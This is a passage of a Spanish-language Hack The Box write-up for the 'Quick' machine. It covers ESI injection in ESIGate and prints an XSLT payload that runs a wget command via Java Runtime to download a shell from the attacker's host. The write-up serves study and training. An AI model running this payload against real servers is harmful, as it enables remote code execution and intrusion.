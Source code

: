Vemos que uno nos reporta un codigo de estado `302`, validamos las credenciales y ganamos acceso a un panel de generación de `tickets`.


![](/assets/images/HTB/htb-writeup-Quick/quick7.PNG)


Anteriormente vimos que el servicio web, usaba `esigate` y buscando vulnerabilidades asociadas encontramos que podemos hace una inyección para obtener `RCE a traves de XSLT`.


Dejo el siguiente articulo si quieres saber a detalle en que consiste la vulnerabilidad y su explotación paso a paso.

* [https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/)


Para explotar vamos a crear dos archivo con extension `xml y xsl`, con el mismo contenido, donde en la opción `CDATA` inyectaremos el codigo que queremos ejecutar.

```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[wget http://10.10.16.4/shell]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```
